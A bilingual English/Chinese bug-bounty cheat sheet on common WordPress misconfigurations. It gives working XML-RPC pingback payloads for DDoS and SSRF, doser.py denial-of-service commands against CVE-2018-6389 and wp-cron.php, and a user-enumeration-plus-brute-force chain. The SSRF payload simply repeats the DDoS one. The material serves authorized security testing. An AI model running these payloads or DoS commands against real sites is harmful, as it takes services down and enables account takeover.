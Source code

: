 # Wordpress Common Misconfiguration - Wordpress 常见的错误配置
Here I will try my best to mention all common security misconfigurations for Wordpress I saw before or officially referenced. I will be attaching all poc and reference as well
在此，我将尽力提及我之前看到或官方引用的所有常见的 Wordpress 安全错误配置。我也会附上所有的 poc 和参考

# 索引
* [WordPress 检测](#"Wordpress Detection")
* [通用扫描工具](#Geneal Scan Tool)
* [xmlrpc.php](#xmlrpc.php)
* [CVE-2018-6389](#CVE-2018-6389)
* [WP Cornjob DOS](#WP Cornjob DOS)
* [WP用户枚举](#WP User Enumeration)

# <a name="Wordpress Detection">Wordpress 检测</a>
Well, if you are reading this you already know about technology detection tool and methods.
Still adding them below
好吧，如果您正在阅读本文，那么您已经了解技术检测工具和方法。 仍在下面添加它们

* Wappalyzer
* WhatRuns
* BuildWith

# <a name="Geneal Scan Tool">通用扫描工具</a>
* WpScan

# <a name=xmlrpc.php>xmlrpc.php</a>
This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.
这是wordpress上常见的问题之一。要想利用这个错误的配置获得一些钱，你必须充分地利用它，并且必须适当地展示其影响。

### 检测
* 访问 site.com/xmlrpc.php
* 只获取关于POST请求的错误信息

### Exploit
* 拦截请求，将方法GET改为POST
* 列出所有Methods
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* 检查``pingback.ping`` 指令是否存在
* 执行DDOS
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
* 执行 SSRF（仅限内部端口扫描）
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
### 自动化 XMLRPC 扫描的工具

[XMLRPC-Scan](https://github.com/nullfil3/xmlrpc-scan)

### 参考
[Bug Bounty Cheat Sheet - 漏洞赏金备忘单](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)

[Medium Writeup](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

[WpEngine Blog Post - WpEngine 博客文章](https://wpengine.com/resources/xmlrpc-php/)

# <a name=CVE-2018-6389>CVE-2018-6389</a>
This issue can down any Wordpress site under 4.9.3 So while reporting make sure that your target website is running wordpress under 4.9.3
这个问题可能会使任何4.9.3版本的Wordpress网站瘫痪。因此，在报告时要确保你的目标网站是在4.9.3下运行的wordpress

### 检测
Use the URL from my gist called loadsxploit, you will get a massive js data in response.
使用我的gist中名为loadxploit的URL，你会得到大量的js数据作为回应。

[loadsxploit](https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9)

### Exploit
You can use any Dos tool i found Doser really fast and it shut down the webserver within 30 second
你可以使用任何 Dos 工具，我发现 Doser 非常快，它会在 30 秒内关闭网络服务器

[Doser](https://github.com/quitten/doser.py)

```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
```
### 参考
[H1 Report](https://hackerone.com/reports/752010)

[CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389)

[Blog Post](https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)


# <a name=WP Cornjob DOS>WP Cornjob DOS</a>
This is another area where you can perform a DOS attack.
这是另一个你可以进行DOS攻击的地方。

### 检测
* 访问site.com/wp-cron.php
* 您将看到一个带有 200 HTTP 状态代码的空白页面

### Exploit
You can use the same tool Doser for exploiting this 
您可以使用相同的工具 Doser 来利用这个

```
python3 doser.py -t 999 -g 'https://site.com/wp-cron.php'
```
### 参考

[GitHub Issue](https://github.com/wpscanteam/wpscan/issues/1299)

[Medium Writeup](https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30)

# <a name="WP User Enumeration">WP用户枚举</a>
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff
这个问题只有在目标网站隐藏其当前用户或不公开的情况下才能接受。因此，攻击者可以使用这些用户数据进行暴力破解和其他工作人员

### 检测
* 访问site.com/wp-json/wp/v2/users/
* 您将看到带有用户信息的 json 数据作为响应

### Exploit
If you have xmlrpc.php and this User enumeration both presence there. Then you can chain them out by collecting username from wp-json and perform Bruteforce on them via xmlrpc.php. It will surely show some extra effort and increase the impact as well
如果你有xmlrpc.php和这个用户枚举都存在。那么你可以通过从wp-json收集用户名并通过xmlrpc.php对它们进行暴力攻击。这肯定会显示出一些额外的努力，同时也会增加影响。

### Reference
[H1 Report](https://hackerone.com/reports/356047)

# 研究员笔记
Please do not depend on those issues at all. I saw people only looking for those issues and nothing else. Those are good to have a look while testing for other vulnerabilities and most of the time they work good for chaining with other low bugs.
请不要完全依赖这些问题。我看到人们只是在寻找这些问题，而不是其他。在测试其他漏洞时，这些问题是很好的选择，而且大多数情况下，它们与其他低级错误的连锁反应很好。

# Author
**Name:** Mehedi Hasan Remon

**Handle:** [@remonsec](https://twitter.com/remonsec)
